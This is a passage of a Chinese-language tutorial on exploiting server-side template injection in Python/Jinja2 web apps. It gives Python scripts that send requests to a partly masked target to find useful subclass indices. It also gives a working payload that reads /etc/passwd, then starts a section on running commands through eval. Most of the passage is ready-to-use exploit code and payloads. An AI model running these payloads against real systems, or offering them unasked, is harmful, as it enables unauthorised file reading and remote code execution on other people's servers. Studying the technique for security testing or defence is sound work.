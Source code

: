 使用file类读取文件的方法仅限于Python 2环境，在Python 3环境中file类已经没有了。我们可以用`<class '_frozen_importlib_external.FileLoader'>`这个类去读取文件。

首先编写脚本遍历目标Python环境中 `<class '_frozen_importlib_external.FileLoader'>` 这个类索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"

    res = requests.get(url=url, headers=headers)
    if 'FileLoader' in res.text:
        print(i)

# 得到编号为79
```

所以payload如下：

```python
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}
```

# 利用SSTI命令执行

可以用来执行命令的类有很多，其基本原理就是遍历含有eval函数即os模块的子类，利用这些子类中的eval函数即os模块执行命令。这里我们简单挑几个常用的讲解。

### 寻找内建函数 eval 执行命令

首先编写脚本遍历目标Python环境中含有内建函数 eval 的子类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"

    res = requests.get(url=url, headers=headers)
    if 'eval' in res.text:
        print(i)
```
